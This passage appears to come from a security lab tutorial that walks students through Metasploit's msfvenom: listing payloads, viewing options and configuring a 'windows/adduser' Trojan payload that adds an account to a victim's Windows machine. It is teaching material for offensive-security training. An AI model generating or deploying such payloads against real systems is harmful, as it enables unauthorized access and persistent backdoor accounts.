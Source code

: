 ==action: Type "msf" (don't press Enter) and press the Tab key twice==. This will list some of the programs that are a part of Metasploit. The command we are interested in now is **msfvenom**, a payload generator. 

A *payload* refers to the malicious code that we want to run on a victim's system. Metasploit comes with a huge collection of different kinds of payloads that it can generate.

==action: To view a list of all the payloads available, run:==

```bash
msfvenom -l payload | less
```

It may take a minute for msfpayload to start, and for the list to be visible.

> Note: We are piping the output through to less, so that we can easily scroll through the output.

Wow. That's a lot of possibilities\! 

==action: Browse through the list==.

To keep our first example simple, let's start by creating a Trojan horse that simply adds a new user to a victim's Windows system. Looking at the list above, we can see that the payload "windows/adduser" looks like it does what we want. 

==action: Press "q" to exit less==.

==action: To find the options for this payload run:==

```bash
msfvenom -p windows/adduser --list-options
```

> Note: That the "--list-options" above instructs msfvenom to show us the options that are available for us to configure.

The output tells us that there are a number of configuration options, along with their default values. Based on this information we can configure a payload and check our settings are ok with the following command:

```bash
msfvenom -p windows/adduser USER=leeds PASS=1234
```

The above command will check the password for complexity requirements, and confirm the settings will be applied correctly. Since your selected password is too simple you will get an error message, so simply repeat with a better password:

```bash
msfvenom -p windows/adduser USER=leeds PASS=L33d583ck377
```

> Tip: Press the up arrow on the keyboard, rather than typing the whole line again.

The output from this command is a raw representation of the machine code that if executed will result in our payload: a new user will be added to the system.

==action: To view a list of all the output formats available, run:==

```bash
msfvenom -l format
```
